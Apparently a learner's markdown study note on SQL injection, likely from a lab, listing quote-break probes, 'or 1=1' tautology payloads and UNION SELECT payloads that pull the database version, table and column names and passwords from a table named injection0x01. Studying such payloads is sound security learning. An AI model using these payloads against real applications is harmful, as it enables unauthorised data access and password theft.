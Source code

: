 
>[!Note]
>- " or ' cuz these characters can break SQL statemen
>- union: retrieve information from tables which are not initially defined(another table/select same name comlumsn like 1 st query)


```search
jeremy "
jeremy '
jeremy j

jeremy' or 1=1# (we get a bunch of results , # :terminantor ; end query :whatever after that is ignored)
jeremy' or 1=1-- - (-- - : terminator)

---union
jeremy' union select null,null,null
jeremy' union select null,null,version()#
jeremy' union select null,null,table_name from information_schema.tables#

jeremy' union select null,null,column_name from information_schema.columns#
jeremy' union select null,null,password from injection0x01# (all paswords, u can try null(int)) 
```
